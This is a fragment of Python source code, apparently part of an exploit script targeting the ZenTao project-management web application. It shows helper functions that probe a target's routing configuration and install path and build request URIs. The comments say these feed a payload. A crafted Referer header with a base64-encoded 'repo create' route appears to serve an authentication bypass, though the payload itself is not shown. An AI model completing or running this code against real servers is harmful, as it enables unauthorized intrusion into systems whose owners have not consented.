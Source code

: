 ```
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36',
        'Referer': '{}index.php?m=user&f=login&referer=L2luZGV4LnBocD9tPXJlcG8mZj1jcmVhdGUmX3NpbmdsZT0xMjM='.format(
            url),
    }
    return headers


def getType(url):
    '''
        Linux+apache环境中的RequestType 为 PATH_INFO  请求路由的方式 为 /user-login-xxxxx
        Windows+CLI 环境的RequestType 为GET  请求路由的方式为 /index.php?m=user&f=login&refer=xxxxx

        需要根据RequestType 生成对应的payload
        1=>PATH_INFO
        2=>GET
    '''
    res = requests.get(url + "?mode=getconfig")
    json_text = json.loads(res.text)
    try:
        #print("requestType is ", json_text["requestType"])
        if "PATH_INFO" in json_text["requestType"]:
            return 1
        elif "GET" in json_text["requestType"]:
            return 2
    except:
        exit("获取请求方式")


def getPath(url):
    '''
        常见环境使用linux 一键集成访问路径为 http://host/zentao/
        部分 路径为 http://host/
        获取请求到zentao的URLPATH
    '''
    res = requests.get(url, allow_redirects=False)
    if "集成运行环境" in res.text:
        if requests.get(url + "/zentao").status_code == 200:
            return url + "/zentao"
    print(res.text)
    if "user" in res.text and "login" in res.text:
        return url

    exit("获取URL路径失败")


def genRequest(param, type):
    '''
        生成Request URI
    '''
    if type == 1:
        return param
    elif type == 2:
        param = param.split('-')
        uri = "?m={}&f={}".format(param[0], param[1])
        param = param[2:]
        for i in range(len(param)):
            uri += "&arg{}={}".format(i + 1, param[i])
        return uri


```